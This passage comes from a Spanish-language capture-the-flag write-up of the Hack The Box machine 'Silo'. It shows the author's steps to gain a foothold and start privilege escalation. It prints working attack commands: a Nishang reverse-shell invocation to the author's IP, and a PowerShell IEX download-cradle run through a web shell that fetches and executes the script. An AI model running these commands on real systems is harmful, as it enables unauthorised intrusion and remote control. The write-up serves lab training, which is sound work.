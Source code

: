 Tomamos esta cadena del inicio:

```powershell
...
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
...
```

La movemos al final con nuestra IP y puerto:

```powershell
...
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4433
```

Guardamos, creamos un servidor web rápidamente:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y ahora ejecutamos en la web-shell:

```html
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:8000/Itcp.ps1');"
```

Recibimos una peticion en el servidor y despues de unos segundos:

![131bash_iss_revSH_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131bash_iss_revSH_done.png)

OPAAA, tamos dentro de la máquina, si si si ;) lindo, tenemos acceso a la flag del user.

> Finalmente no explotamos el CVE :( (lo intente con algunos poc pero no lo logre).

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

En el directorio de un usuario llamado **phineas** tenemos:

```powershell
PS C:\Users\Phineas\Desktop> ls 

    Directory: C:\Users\Phineas\Desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---          1/5/2018  10:56 PM        300 Oracle issue.txt
-a---          1/4/2018   9:41 PM         32 user.txt

PS C:\Users\Phineas\Desktop>
```

```powershell
PS C:\Users\Phineas\Desktop> type "Oracle issue.txt"
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link 
https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0

link password:
?%Hm8646uC$
```
